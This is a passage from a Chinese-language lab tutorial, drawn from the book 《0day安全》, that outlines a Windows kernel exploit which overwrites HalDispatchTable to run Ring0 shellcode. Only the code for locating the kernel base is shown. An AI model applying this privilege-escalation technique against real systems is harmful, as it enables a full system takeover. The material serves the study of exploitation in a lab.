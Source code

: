 1. 获取HalDispatchTable地址`x`
2. 编写Ring0 Shellcode
3. 在0x0处申请内存，写入Ring0 Shellcode
4. 利用漏洞向地址`x + 4`处写入0x0
5. 调用`NtQueryIntervalProfile`，Ring0 Shellcode

建议在做实验之前先对虚拟机进行一次快照。

本实验的源文件及其依赖如下：

```
exploit.cpp
exploit.h
ntapi.h
ntdll.lib
```

后面仅仅在分步说明中引用`exploit.cpp`中的源码片段。完整项目代码可以参考《0day安全》附带包。

### 1 获取HalDispatchTable地址

思路是先得到内核模块基址，将其与HalDispatchTable在内核模块中的偏移相加。

```c
	// 获取内核模块列表数据长度到ReturnLength
	NtStatus = NtQuerySystemInformation(
		SystemModuleInformation,
		ModuleInformation,
		ReturnLength,
		&ReturnLength);
	if(NtStatus != STATUS_INFO_LENGTH_MISMATCH){
		printf("NtQuerySystemInformation get len failed! NtStatus=%.8X\n", NtStatus); 
		goto ret;
	}

	// 申请内存
	ReturnLength = (ReturnLength & 0xFFFFF000) + PAGE_SIZE * sizeof(ULONG);
	ModuleInformation = (SYSTEM_MODULE_INFORMATION *)MyAllocateMemory(ReturnLength);
	if(ModuleInformation == NULL){
		printf("MyAllocateMemory failed! Length=%.8X\n", ReturnLength); 
		goto ret;
	}

	// 获取内核模块列表数据
	NtStatus = NtQuerySystemInformation(
		SystemModuleInformation,
		ModuleInformation,
		ReturnLength,
		NULL);
	if(NtStatus != STATUS_SUCCESS){
		printf("NtQuerySystemInformation get info failed! NtStatus=%.8X\n", NtStatus); 
		goto ret;
	}
				
	// 保存内核第一个模块（即nt模块）基址和名称，并打印
	ImageBase = (ULONG)(ModuleInformation->Module[0].Base);
	RtlMoveMemory(
		ImageName,
		(PVOID)(ModuleInformation->Module[0].ImageName +
		ModuleInformation->Module[0].PathLength),
		KERNEL_NAME_LENGTH);
	printf("ImageBase=0x%.8X ImageName=%s\n",ImageBase,	ImageName);
	
	// 获取内核模块名称字符串的Unicode字符串
	RtlCreateUnicodeStringFromAsciiz(&DllName, (PUCHAR)ImageName);

	// 加载内核模块到本进程空间
```